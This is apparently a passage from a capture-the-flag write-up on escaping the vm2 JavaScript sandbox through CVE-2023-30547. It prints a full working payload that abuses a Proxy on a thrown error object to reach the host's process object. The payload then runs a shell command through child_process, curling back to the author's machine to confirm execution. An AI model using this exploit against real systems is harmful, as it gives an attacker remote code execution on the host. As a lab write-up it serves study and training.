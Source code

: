In my first glance at a search for vulnerabilities I came across two CVES, [CVE-2023-30547](https://github.com/advisories/GHSA-ch3r-j5x3-6q2m) and [CVE-2023-29017](https://github.com/advisories/GHSA-7jxr-cg7f-gpgv). I tested the latter and came across a few issues such as child_process being filtered. The former is a vuln more elaborated [in this hacker news post](https://thehackernews.com/2022/10/researchers-detail-critical-rce-flaw.html). The TLDR is this version gives the sandbox permissions to override the error object and then call it, which will cause the new implementation to access objects outside of the sandbox. [https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) is a specific post on the matter in the wild, and it contains a payload I intend to use.

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('curl 10.10.14.7:8080');
}
`

console.log(vm.run(code));
```

We'll use a simple curl back to my host to check if this can reach me and works. 
